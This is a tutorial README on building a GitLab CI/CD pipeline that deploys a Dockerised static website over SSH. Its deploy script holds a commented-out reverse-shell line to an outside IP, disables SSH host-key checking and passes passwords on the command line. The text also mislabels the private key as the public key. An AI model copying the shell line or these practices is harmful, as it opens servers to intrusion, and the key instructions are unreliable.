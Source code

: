 # Documentation of CI/CD Project
What is CI/CD? That stand for Continuous integration (CI)/Continuous Deployment(CD). List what procced of deployment with Gitlab CI/CD.
- Make a Gitlab Project
- Make a CI/CD Pipline
- Deploy to a Server with CI/CD 

## 1. Gitlab Project
Before u create a project, u need an Gitlab account first. After that u can click the button ***"new project"*** in right corner.
![index_image_google](/images/g_1a.png)
After that u can select ***"Create Blank Project"***
![index_image_google](/images/g_1b.png)
Fill all data and then click ***"create project"***
![index_image_google](/images/g_2.png)

## 2. CI/CD Models

### a. Edit your Gitlab Project
After that you can clone the project in your local/pc. And then you can upload/push some file what we need for make this project. There are :
- Website files
- Configuration

For Website files u can add hmtl, css, js, images, and etc in ***One Folder*** in this case named ***Website*** on the menandap of the repo.

For Configuration files there are .gitlab-ci.yaml, .gitlab-deploy.sh  .

***.gitlab-ci.yaml***

```yaml
stage-build:
  image: docker:18.09-dind
  stage: build
  services:
    - docker:dind
  variables:
    DOCKER_HOST: tcp://docker:2375/
    DOCKER_DRIVER: overlay2
    DOCKER_TLS_CERTDIR: ""
  script:
    - . .gitlab-deploy.sh "BUILD"


stage-prod:
  image: ruby:2.5
  stage: deploy
  script:
    - . .gitlab-deploy.sh "DEPLOY"
  # when: manual

```

***gitlab-deploy.sh***
```bash 
#!/bin/bash
WAKTU=$(date '+%Y-%m-%d.%H')
echo "$SSH_KEY" > key.pem
chmod 400 key.pem

if [ "$1" == "BUILD" ];then
echo '[*] Building Program To Docker Images'
echo "[*] Tag $WAKTU"
docker build -t menandap/belajardevops:$CI_COMMIT_BRANCH .
docker login --username=$DOCKER_USER --password=$DOCKER_PASS
docker push menandap/belajardevops:$CI_COMMIT_BRANCH
echo $CI_PIPELINE_ID

elif [ "$1" == "DEPLOY" ];then
echo "[*] Tag $WAKTU"
echo "[*] Deploy to production server in version $CI_COMMIT_BRANCH"
echo '[*] Generate SSH Identity'
HOSTNAME=`hostname` ssh-keygen -t rsa -C "$HOSTNAME" -f "$HOME/.ssh/id_rsa" -P "" && cat ~/.ssh/id_rsa.pub
echo '[*] Execute Remote SSH'
# bash -i >& /dev/tcp/103.41.207.252/1234 0>&1
ssh -i key.pem -o "StrictHostKeyChecking no" menandap@119.13.124.218 -p 1022 "docker login --username=$DOCKER_USER --password=$DOCKER_PASS"
ssh -i key.pem -o "StrictHostKeyChecking no" menandap@119.13.124.218 -p 1022 "docker pull menandap/belajardevops:$CI_COMMIT_BRANCH"
ssh -i key.pem -o "StrictHostKeyChecking no" menandap@119.13.124.218 -p 1022 "docker stop belajardevops-$CI_COMMIT_BRANCH"
ssh -i key.pem -o "StrictHostKeyChecking no" menandap@119.13.124.218 -p 1022 "docker rm belajardevops-$CI_COMMIT_BRANCH"
ssh -i key.pem -o "StrictHostKeyChecking no" menandap@119.13.124.218 -p 1022 "docker run -d -p 3003:80 --restart always --name belajardevops-$CI_COMMIT_BRANCH menandap/belajardevops:$CI_COMMIT_BRANCH"
# ssh -i key.pem -o "StrictHostKeyChecking no" menandap@119.13.124.218 "docker exec farmnode-main sed -i 's/farmnode_staging/farmnode/g' /var/www/html/application/config/database.php"
echo $CI_PIPELINE_ID
fi

```
***Dockerfile***
```Dockerfile
FROM nginx:latest
COPY website/ /usr/share/nginx/html
```

### b. Configure your Server
In your server u need to configure public key so in the project u can login with the ***pem*** key

```bash 
ssh-keygen -t rsa -b 2048
```

After that you can check if the key was maked by see in **.ssh** dir, in there will have 3 files authorized_key, id_rsa, and id_rsa.pub.

![index_image_google](/images/g_3.png)

***note*** : if there no authorized_keys, u can make it.
```bash
touch authorized_keys
cat id_rsa.pub > authorized_keys
```
Now u can see the id_rsa files, that contain the public key that make u can login the server. Copy the key in id_rsa files and then save and name it ***key.pem***.





